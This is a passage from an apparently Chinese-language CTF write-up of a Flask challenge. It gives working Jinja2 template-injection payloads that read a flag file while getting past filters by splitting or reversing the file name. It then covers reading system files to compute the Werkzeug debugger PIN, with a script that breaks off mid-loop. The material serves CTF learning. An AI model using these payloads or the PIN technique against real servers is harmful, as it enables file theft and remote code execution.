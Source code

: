 然后拼接一下，利用`os.listdir`，发现根目录下有**this_is_the_flag.txt**

拼接绕过访问

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt','r').read()}}{% endif %}{% endfor %}
```

倒转绕过访问

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %}
```

但是如果flag不叫flag或者藏在不常规位置，就还是能弹shell方便一点吧

##### 算PIN

同样的先访问`/proc/self/environ`发现我是**flaskweb**

然后**flask.app和Flask**不变

然后python3，文件目录应该是`app.py`，报错信息就有了
`/usr/local/lib/python3.7/site-packages/flask/app.py`

**/sys/class/net/eth0/address**读uuid并转十进制

machine-id是在`/etc/machine-id`读出来的

然后运行脚本

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb'# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '77041330416476',# str(uuid.getnode()),  /sys/class/net/eth0/address
    '1408f836b0ca514d796cbf8960e45fa1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
```